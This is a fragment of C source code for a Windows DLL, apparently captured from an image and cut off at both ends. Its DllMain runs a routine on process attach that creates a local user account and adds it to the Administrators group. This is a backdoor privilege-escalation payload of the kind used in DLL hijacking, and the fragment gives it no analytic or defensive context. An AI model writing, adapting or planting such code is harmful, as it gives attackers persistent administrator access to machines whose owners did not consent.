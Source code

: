 ```
        1,                // information level
        (LPBYTE)&ud,
        NULL            // error value
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetUserAdd FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

   _tprintf(_T("NetUserAdd OK\r\n"), rc, rc);

    // Get user SID
    b = LookupAccountName(
        NULL,            // local server
        ud.usri1_name,   // account name
        Sid,             // SID
        &cbSid,          // SID size
        Domain,          // Domain
        &cbDomain,       // Domain size
        &snu             // SID_NAME_USE (enum)
    );

    if (!b) {
        dw = GetLastError();
        _tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
        return dw;
    }

    // Add user to "Administrators" local group
    memset(&gd, 0, sizeof(gd));

    gd.lgrmi0_sid = (PSID)Sid;

    rc = NetLocalGroupAddMembers(
        NULL,                    // local server
        _T("Administrators"),
        0,                        // information level
        (LPBYTE)&gd,
        1                        // only one entry
    );

    if (rc != NERR_Success) {
        _tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
        return rc;
    }

    return 0;
}

//
// DLL entry point.
//

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
```